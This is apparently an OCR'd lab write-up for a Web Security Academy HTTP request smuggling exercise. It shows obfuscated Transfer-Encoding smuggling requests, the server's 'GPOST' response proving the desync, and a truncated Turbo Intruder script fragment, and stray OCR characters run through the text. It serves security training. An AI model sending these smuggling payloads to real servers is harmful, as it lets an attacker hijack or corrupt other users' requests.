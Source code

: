 >`POST / HTTP/1.1
>`Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
>`Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
>`Connection: keep-alive
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`tRANSFER-ENCODING: chunked
>
>`3
>`x=y
>`5c
>`GPOST / HTTP/1.1
>`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15
>
>`x=1
>`0
POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0

---
## Response: 

HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 27

"Unrecognized method GPOST"

---
## Turbo Intruder code:

>`import re
>
`def queueRequests(target, wordlists):
  `  engine = RequestEngine(endpoint=target.endpoint,
>`...`
>  
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GPOST / HTTP/1.1
`Content-Type: application/x-www-form-urlencoded
`Content-Length: 15
>
`x=1'''
>

---